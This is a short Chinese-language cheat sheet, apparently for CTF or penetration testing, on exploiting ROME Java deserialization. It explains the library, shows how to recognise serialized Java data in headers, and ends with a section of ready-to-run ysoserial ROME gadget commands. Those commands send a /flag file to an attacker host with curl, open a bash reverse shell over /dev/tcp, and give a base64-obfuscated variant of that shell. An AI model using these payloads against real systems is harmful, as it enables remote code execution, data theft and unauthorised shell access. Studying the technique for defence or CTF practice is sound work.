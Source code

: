 ## **ROME反序列化**
ROME它指的是一个有用的工具库，帮助处理和操作XML格式的数据。ROME库允许我们把XML数据转换成Java中的对象，这样我们可以更方便地在程序中操作数据。另外，它也支持将Java对象转换成XML数据，这样我们就可以把数据保存成XML文件或者发送给其他系统。

ROME的应用场景包括新闻聚合应用、博客平台的RSS输出、数据分析等，它可以帮助开发者从多个源抓取并处理RSS或Atom feeds，以实时更新内容，也可以用于创建和维护博客的RSS输出，以便读者订阅。


他有个特殊的位置就是ROME提供了ToStringBean这个类，提供深入的toString方法对Java Bean进行操作。
```
<dependencies>
        <dependency>
            <groupId>rome</groupId>
            <artifactId>rome</artifactId>
            <version>1.0</version>
        </dependency>
 </dependencies>
```

<https://xz.aliyun.com/t/13286?u_atoken=bcc44563e868bc8bbf88f038f56e5316&u_asig=1a0c39a017285446910872366e0133>

## **常规入口场景**
下方的特征可以作为序列化的标志参考：
一段数据以rO0AB开头，你基本可以确定这串就是Java序列化base64加密的数据。
或者如果以aced开头，那么他就是这一段Java序列化的16进制。
所以这串数据可能会被服务端拿去反序列化。

比如一个Authorization头是这样的，不是标准jwt，可能是序列化后的用户类
```
Authorization Bearer rO0ABXNyABhjbi5hYmMuY29yZS5tb2RlbC5Vc2VyVm92RkMxewT0OgIAAkwAAmlkdAAQTGphdmEvbGFuZy9Mb25nO0wABG5hbWV0ABJMamF2YS9sYW5nL1N0cmluZzt4cHNyAA5qYXZhLmxhbmcuTG9uZzuL5JDMjyPfAgABSgAFdmFsdWV4cgAQamF2YS5sYW5nLk51bWJlcoaslR0LlOCLAgAAeHAAAAAAAAAAAXQABWFkbWlu
```
可以使用burpsuite的java DeserializationScanner插件扫描可利用链，或者代码审计依赖利用链
## **利用**
```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar ROME "curl http://vps:7015 -d @/flag" > a.bin
java -jar ysoserial.jar ROME "curl http://1.2.90.186:1234 -d @/flag" |base64

bash -i >& /dev/tcp/111.111.111.111/7015 0>&1
进行base64编码，YmFzaCAtaSA+JiAvZGV2L3RjcC8xMTEuMTExLjExMS4xMTEvNzAxNSAwPiYx

java -jar ysoserial-0.0.6-SNAPSHOT-all.jar ROME "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMTEuMTExLjExMS4xMTEvNzAxNSAwPiYx}|{base64,-d}|{bash,-i}" > a.bin
```